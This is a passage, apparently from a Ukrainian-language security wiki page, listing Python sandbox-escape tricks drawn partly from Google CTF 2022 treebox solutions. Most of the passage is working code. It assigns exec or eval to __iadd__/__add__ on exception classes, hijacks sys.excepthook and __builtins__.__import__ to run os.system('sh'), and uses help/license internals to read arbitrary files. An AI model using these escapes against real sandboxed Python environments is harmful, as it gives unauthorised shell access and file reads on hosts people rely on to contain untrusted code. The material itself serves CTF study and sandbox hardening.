 Коли виникає **exception**, об'єкт **Exception** **створюється** без необхідності викликати конструктор безпосередньо (трюк від [**@\_nag0mez**](https://mobile.twitter.com/_nag0mez)):
```python
class RCE(Exception):
def __init__(self):
self += 'import os; os.system("sh")'
__iadd__ = exec #Triggered when object is created
raise RCE #Generate RCE object


# RCE with __add__ overloading and try/except + raise generated object
class Klecko(Exception):
__add__ = exec

try:
raise Klecko
except Klecko as k:
k + 'import os; os.system("sh")' #RCE abusing __add__

## You can also use the tricks from the previous section to get RCE with this object
```
### Більше RCE
```python
# From https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/
# If sys is imported, you can sys.excepthook and trigger it by triggering an error
class X:
def __init__(self, a, b, c):
self += "os.system('sh')"
__iadd__ = exec
sys.excepthook = X
1/0 #Trigger it

# From https://github.com/google/google-ctf/blob/master/2022/sandbox-treebox/healthcheck/solution.py
# The interpreter will try to import an apt-specific module to potentially
# report an error in ubuntu-provided modules.
# Therefore the __import__ functions are overwritten with our RCE
class X():
def __init__(self, a, b, c, d, e):
self += "print(open('flag').read())"
__iadd__ = eval
__builtins__.__import__ = X
{}[1337]
```
### Прочитати файл з builtins help & license
```python
__builtins__.__dict__["license"]._Printer__filenames=["flag"]
a = __builtins__.help
a.__class__.__enter__ = __builtins__.__dict__["license"]
a.__class__.__exit__ = lambda self, *args: None
with (a as b):
pass
```
## Вбудовані
